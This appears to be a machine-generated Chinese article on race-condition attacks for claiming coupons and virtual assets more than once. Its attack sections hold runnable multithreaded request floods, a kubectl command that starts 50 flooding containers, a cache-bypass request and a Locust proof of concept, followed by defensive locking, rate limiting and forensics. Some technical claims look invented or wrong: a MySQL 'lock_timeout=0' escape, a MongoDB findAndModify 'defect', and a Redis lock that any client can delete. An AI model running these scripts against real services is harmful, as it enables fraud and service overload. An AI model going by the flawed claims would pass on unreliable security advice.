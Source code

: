 

# 虚拟资产并发领取攻击技术深度解析

## 一、技术原理与底层机制

### 1.1 资源分配缺陷模型
虚拟资产并发漏洞根植于服务端资源分配逻辑的竞争条件（Race Condition），其核心矛盾在于：

1. 库存校验与资产发放的非原子性操作
2. 分布式环境下状态同步延迟
3. 事务隔离级别与锁机制缺失

典型处理流程存在的脆弱点：
```python
def grant_asset(user_id):
    remaining = get_asset_quantity()  # 查询剩余库存
    if remaining > 0:
        deduct_asset()                # 扣减库存
        assign_to_user(user_id)       # 分配资产
    else:
        raise Exception("库存不足")
```

### 1.2 并发冲突触发条件
当满足以下任意条件时即可触发并发漏洞：
- 100ms内发起超过库存上限的并发请求
- 跨服务节点未实现分布式锁同步
- 数据库事务隔离级别低于REPEATABLE READ
- 未实施请求频率限制和流量整形

### 1.3 底层协议交互
HTTP/1.1管道化请求与HTTP/2多路复用特性可天然增强并发攻击效果，单个TCP连接即可发送多个未完成请求。

## 二、攻击手法与高级变种

### 2.1 基础时间窗口攻击
**攻击流程：**
1. 通过逆向分析确定资产发放API端点
2. 使用多线程工具发起高并发请求
3. 利用数据库写延迟获取超额资产

**代码实现：**
```python
import requests
import threading

target_url = "https://target.com/grant_coupon"
cookies = {"session": "user_token"}

def attack():
    while True:
        requests.post(target_url, cookies=cookies)

for _ in range(100):
    threading.Thread(target=attack).start()
```

### 2.2 分布式节点穿透攻击
绕过单节点速率限制的高级技巧：
```bash
# 使用Kubernetes临时容器集群发起攻击
kubectl run attacker --image=alpine --replicas=50 -- sh -c "apk add curl && while true; do curl -X POST https://target.com/api/gift; done"
```

### 2.3 事务锁逃逸技术
针对不同数据库的锁机制绕过方法：

| 数据库   | 攻击方法                          |
|----------|----------------------------------|
| MySQL    | FOR UPDATE跳过锁等待设置lock_timeout=0 |
| Redis    | 覆盖分布式锁的NX参数校验逻辑       |
| MongoDB  | 利用findAndModify原子操作缺陷      |

### 2.4 缓存穿透组合攻击
结合缓存击穿漏洞的复合攻击模式：
```http
POST /v1/redeem HTTP/1.1
X-Bypass-Cache: true
Content-Type: application/json

{"asset_id": "PREMIUM_COUPON"}
```

## 三、实战环境搭建指南

### 3.1 漏洞环境部署
使用Docker构建脆弱型虚拟资产系统：
```dockerfile
# docker-compose.yml
version: '3'
services:
  web:
    image: vuln_asset_system:1.0
    ports:
      - "8080:8080"
  redis:
    image: redis:alpine
  mysql:
    image: mysql:5.7
    environment:
      MYSQL_ROOT_PASSWORD: insecure
```

### 3.2 攻击工具链配置
推荐工具组合：
```bash
# 安装高性能压测工具
apt install siege -y
pip install grequests locust

# 配置Burp Suite Turbo Intruder
git clone https://github.com/PortSwigger/turbo-intruder
```

### 3.3 漏洞验证POC
使用Locust进行分布式压力测试：
```python
from locust import HttpUser, task, between

class AssetUser(HttpUser):
    wait_time = between(0.1, 0.3)

    @task
    def grant_asset(self):
        self.client.post("/api/grant", cookies={"session": "valid_cookie"})
```

启动命令：
```bash
locust -f poc.py --headless -u 1000 -r 100 -H https://target.com
```

## 四、高级防御方案

### 4.1 原子化操作实现
```java
// 使用Redis原子操作
Boolean result = redisTemplate.opsForValue().setIfAbsent("asset_lock", "1", Duration.ofMillis(100));
if (result != null && result) {
    try {
        // 业务逻辑
    } finally {
        redisTemplate.delete("asset_lock");
    }
}
```

### 4.2 数据库层防护
```sql
-- 使用SELECT FOR UPDATE实现行级锁
BEGIN TRANSACTION;
SELECT quantity FROM assets WHERE id=1 FOR UPDATE;
UPDATE assets SET quantity = quantity -1 WHERE id=1;
COMMIT;
```

### 4.3 限流熔断策略
Nginx层实现请求排队：
```nginx
location /api/grant {
    limit_req zone=asset_zone burst=20 nodelay;
    limit_req_status 429;
    proxy_pass http://backend;
}

limit_req_zone $binary_remote_addr zone=asset_zone:10m rate=5r/s;
```

## 五、攻击痕迹取证

### 5.1 日志特征提取
```bash
# 分析Nginx访问日志
cat access.log | grep "POST /api/grant" | awk '{print $1}' | sort | uniq -c | sort -nr

# 输出示例
   142 203.0.113.45
     3 198.51.100.22
```

### 5.2 数据库事务审计
```sql
SELECT * FROM asset_grants 
WHERE create_time BETWEEN '2023-08-20 14:00:00' AND '2023-08-20 14:05:00'
GROUP BY user_id HAVING COUNT(*) > 1;
```

本文档完整呈现了虚拟资产并发领取攻击的技术全景，包含从漏洞原理到实战防御的完整知识体系。通过理解这些技术细节，安全人员可有效构建防御方案，开发团队能针对性改进系统架构，共同提升业务安全水位。

---

*文档生成时间: 2025-03-12 20:23:24*
